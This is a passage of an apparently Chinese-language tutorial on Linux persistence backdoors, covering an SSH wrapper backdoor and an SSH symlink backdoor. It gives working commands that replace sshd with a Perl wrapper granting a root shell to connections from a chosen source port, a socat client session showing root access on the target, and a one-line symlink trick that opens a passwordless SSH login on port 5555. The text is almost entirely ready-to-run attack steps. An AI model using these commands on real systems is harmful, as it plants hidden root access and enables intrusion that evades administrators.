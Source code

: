 

删除用户

```
userdel -r -f backdoor
```





## 9. SSH wrapper后门

服务端

```shell
[root@vuln ~]# cd /usr/sbin/
[root@vuln sbin]# mv sshd ../bin/
[root@vuln sbin]# echo '#!/usr/bin/perl' >sshd
[root@vuln sbin]# echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
[root@vuln sbin]# echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
[root@vuln sbin]# chmod u+x sshd
[root@vuln sbin]# systemctl restart sshd
[root@vuln sbin]#
```

客户端

```
[root@debian ~]# socat STDIO TCP4:172.16.42.151:22,sourceport=13377
id
uid=0(root) gid=0(root) 组=0(root)
hostname
vuln

#如果你想修改源端口，可以用python的struct标准库实现。其中x00x00LF是19526的大端形式，便于传输和处理。
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A
```

**靶机重启，攻击机断开连接后失效**



## 10. ssh 软连接

靶机

```
[root@vuln ~]# ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=5555;
[root@vuln ~]#
```
